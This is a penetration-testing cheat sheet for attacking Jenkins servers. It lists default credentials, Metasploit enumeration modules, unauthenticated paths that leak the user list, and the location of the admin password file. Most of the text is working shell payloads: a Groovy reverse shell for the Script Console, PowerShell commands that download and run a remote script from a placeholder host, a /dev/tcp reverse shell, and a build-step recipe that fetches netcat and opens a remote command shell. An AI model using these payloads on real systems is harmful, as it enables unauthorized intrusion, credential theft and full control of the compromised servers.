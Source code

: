 # jenkins

## Default Credentails

```bash
admin:password
jenkins:jenkins
```

## Enumeration

### msf

* jenkins_enum: `use auxiliary/scanner/http/jenkins_enum`
* unauthenticated command execution: `use auxiliary/scanner/http/jenkins_command`

### Interesting Paths

```bash
# version check
/oops
/err

# without credentials, lists current users
/people
/asynchPeople/
/securityRealm/user/admin/search/index?q=USERNAME

# password file in windows
C:\Users\Administrator\.jenkins\secrets\initialAdminPassword
```

## Shell (authenticated)

### Groovy Script Console Method

Manage Jenkins > Script Console

```bash
# universal
String host="IP";
int port=6969;
String cmd="/bin/bash";
# String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

# WINDOWS
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://IP/shell.ps1')" """
println cmd.execute().text

# LINUX
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/IP/PORT;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### New Project Method (Windows)

New Item > Freestyle Project > Build > Add Build Step > Execute Windows Batch Command

```powershell
powershell iex (New-Object System.Net.WebClient).DownloadString('http://IP/shell.ps1')

powershell wget "http://IP/nc.exe" -outFile "nc.exe"
nc.exe -e cmd.exe IP PORT
```